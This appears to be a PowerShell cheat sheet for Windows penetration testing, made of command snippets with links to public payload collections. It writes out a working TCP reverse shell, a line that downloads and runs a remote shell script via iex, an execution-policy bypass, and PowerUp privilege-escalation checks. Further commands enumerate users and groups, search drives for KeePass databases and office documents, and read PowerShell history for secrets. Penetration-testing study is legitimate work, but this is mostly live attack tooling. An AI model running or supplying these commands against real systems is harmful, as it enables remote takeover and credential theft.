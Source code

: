 ```
powershell -ExecutionPolicy Bypass -File script.ps1
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

```
powershell iex(New-Object Net.WebClient).DownloadString('http://ip/Invoke-PowerShellTcp.ps1');
```

```
powershell -c "(New-Object Net.WebClient).DownloadFile('http://ip/filename.ext','C:\filelocation\filename.ext')"
```

```
Start-Service GammaService
```

```
Stop-Service GammaService
```

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.3

**Invoke-WebRequest**

```
iwr http://kali/PowerUp.ps1 -Outfile PowerUp.ps1
```

```
powershell -ep bypass
```

```
..\PowerUp.ps1
```

```
Get-UnquotedService
```

```
 Get-Acl -Path C:\ | Format-List
```

```
icacls .\Documents\BetaServ.exe
```

```
Get-LocalUser
```

```
Get-LocalGroup
```

```
Get-LocalGroupMember adminteam
```

```
Get-LocalGroupMember Administrators
```

```
systeminfo
```

```
ipconfig /all
```

```
route print
```

```
netstat -ano
```

```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-History
```

```
(Get-PSReadlineOption).HistorySavePath
```


